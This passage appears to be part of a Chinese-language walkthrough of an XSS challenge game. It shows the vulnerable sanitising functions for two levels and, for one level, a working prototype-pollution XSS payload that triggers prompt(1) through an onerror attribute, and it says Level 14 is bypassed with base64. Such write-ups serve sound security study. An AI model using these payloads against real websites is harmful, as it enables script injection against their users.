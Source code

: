 ```
        }, JSON.parse(input));
        // forbit invalid image source
        if (/[^\w:\/.]/.test(config.source)) {
            delete config.source;
        }
        // purify the source by stripping off "
        var source = config.source.replace(/"/g, '');
        // insert the content using mustache-ish template
        return '<img src="{{source}}">'.replace('{{source}}', source);
    } catch (e) {
        return 'Invalid image data.';
    }
}

```

### 答案

59个字符，通杀所有浏览器

```
{"source":{},"__proto__":{"source":"$`onerror=prompt(1)>"}}

```

Level 14
--------

* * *

这个题目使用base64绕过。

### 代码

```
function escape(input) {
    // I expect this one will have other solutions, so be creative :)
    // mspaint makes all file names in all-caps :(
    // too lazy to convert them back in lower case
    // sample input: prompt.jpg => PROMPT.JPG
    input = input.toUpperCase();
    // only allows images loaded from own host or data URI scheme
    input = input.replace(/\/\/|\w+:/g, 'data:');
    // miscellaneous filtering
    input = input.replace(/[\\&+%\s]|vbs/gi, '_');
    return '<img src="' + input + '">';
}

```

### 答案

firfox下94个字符
